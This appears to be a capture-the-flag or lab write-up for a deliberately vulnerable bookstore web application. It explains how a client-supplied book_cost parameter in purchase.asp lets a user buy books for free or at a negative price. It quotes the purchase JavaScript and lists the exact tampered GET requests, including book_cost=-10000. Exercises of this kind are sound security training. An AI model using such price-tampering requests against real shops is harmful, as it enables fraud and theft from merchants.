 ## Challenge 3

### Task: Buy at least one copy of each book costing more than 800 credit points

### Vulnerability/Vulnerabilities Identified

1.  Insufficient Validation on user input
2.  Unnecessary user input ###Application Root Cause A user is allowed to specify the cost of the book while purchasing it. ###Approach adopted (steps with screenshots)
3.  We looked at the javascript code of `books.asp` where the purchase is made and found the following snippet :

```js
function purchase(bid, cost) {
    $.ajax({
        url: 'checkout.asp?book_id=' + bid + '&action=checkin',
        success: function(msg) {},
    });
    $.ajax({
        url: 'purchase.asp?book_id=' +
            bid +
            '&action=purchase&book_cost=' +
            cost,
        success: function(msg) {
            alert(msg);
            history.go(0);
        },
    });
}
```

4.  We found that the application was sending a get request to `purchase.asp` with the fields `book_id` , `purchase`, and `book_cost`.

5.  The application also sent a request to `checkout.asp` to make sure that the book was checked out (See Generic Vulnerability 1 for more details on this)

6.  We checked all the books and found the following books had cost above 800:

    1.  (66) : XPATH - 9245
    2.  (64) : WPA 2 - 2345
    3.  (35) : IT ACT 2008 - 2000
    4.  (56) : SQL Injection - 990
    5.  (59) : Symmetric Encryption - 888
7.  We performed a GET request to `purchase.asp?action=purchase&book_id=66&book_cost=-10000` allowing us to buy the first book in the list and raise our credits by 10000.

8.  The other books were bought with similar GET requests to the following urls : `purchase.asp?action=purchase&book_id=64&book_cost=0`
    `purchase.asp?action=purchase&book_id=35&book_cost=0`
    `purchase.asp?action=purchase&book_id=56&book_cost=0`
    `purchase.asp?action=purchase&book_id=59&book_cost=0`
